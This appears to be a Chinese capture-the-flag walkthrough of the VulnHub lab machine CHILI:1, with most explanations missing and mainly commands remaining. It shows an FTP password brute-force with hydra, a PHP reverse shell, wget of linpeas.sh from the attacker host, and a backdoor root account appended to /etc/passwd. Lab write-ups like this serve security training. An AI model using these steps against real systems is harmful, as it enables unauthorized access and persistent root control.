 # 原创
：  VulnHub渗透测试实战靶场 - CHILI：1

# VulnHub渗透测试实战靶场 - CHILI：1

#### VulnHub渗透测试实战靶场 - CHILI：1

## 环境下载

> 



## CHILI：1靶机搭建

> 



## 渗透测试

### 信息搜集

> 



> 



> 



### 漏洞挖掘

> 



> 



> 



```
hydra -L user.txt -P rockyou.txt -f -V 192.168.246.138 ftp 

```

### getshell

> 



> 



> 



```
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop

```

> 



```
chmod +x php-reverse-shell.php
chmod 777 php-reverse-shell.php

```

> 



### 提权

> 



```
python2 -m SimpleHTTPServer 8888

```

```
wget http://192.168.246.129/linpeas.sh

```

> 



```
chmod +x linpeas.sh
chmod 777 linpeas.sh

```

> 



```
/usr/bin/perl -le 'print crypt("H3rmesk1t","H3rmesk1t")'

```

> 



```
echo "H3rmesk1t:H3uwEyrUn4dnU:0:0:ROOT:/root:/bin/bash" &gt;&gt; /etc/passwd

```

> 


